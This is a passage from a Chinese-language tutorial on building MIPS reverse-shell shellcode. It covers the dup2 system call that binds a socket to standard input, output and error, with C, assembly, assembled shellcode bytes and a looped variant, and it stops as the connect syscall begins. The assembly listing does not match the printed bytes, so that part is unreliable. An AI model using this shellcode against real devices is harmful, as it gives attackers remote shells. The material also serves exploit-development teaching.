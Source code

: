 dup2 函数的作用是复制文件描述符，将 socket 描述符复制 stdin、stdout、stderr 描述符中，这里我们就能在远程与本地交互。

以 C 语言来表示的话如下：

```
dup2(socket_obj,0)
dup2(socket_obj,1)
dup2(socket_obj,2)
```

- dup2 的系统调用号为 4063。

对应的汇编表示为：

```
lw $v0,10($sp);			// sys_socket 系统调用的返回值，即 sock 对象
addiu $a1,zero,0
addiu $v0,zero,4063
syscall 0x40404

lw $v0,10($sp);			// sys_socket 系统调用的返回值，即 sock 对象
addiu $a1,zero,1
addiu $v0,zero,4063
syscall 0x40404

lw $v0,10($sp);			// sys_socket 系统调用的返回值，即 sock 对象
addiu $a1,zero,2
addiu $v0,zero,4063
syscall 0x40404
```

shellcode 表示：
```
➜  mips rasm2 -a mips -b 32 -C -f ./conn
"\x20\x20\x40\x00\x00\x00\x05\x24\xdf\x0f\x02\x24\x0c\x00\x00\x00\x20\x20\x40\x00" \
"\x01\x00\x05\x24\xdf\x0f\x02\x24\x0c\x00\x00\x00\x20\x20\x40\x00\x02\x00\x05\x24" \
"\xdf\x0f\x02\x24\x0c\x00\x00\x00"
```

经常在这里，我们会加上一个循环，使得最终生成的 shellcode 会短一些，如：

```
lw $v0,10($sp)
addiu $a1,$zero,2
loop:
addiu $v0,$zero,4063
syscall 0x40404
addiu $t5,$zero,-1
addi $a1,$a1,-1
bne $a1,$t5,loop
```

### connect 系统调用

`connect` 函数的作用是通过 socket 连接到指定的 ip 地址监听的端口。函数原型为：

```
int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```
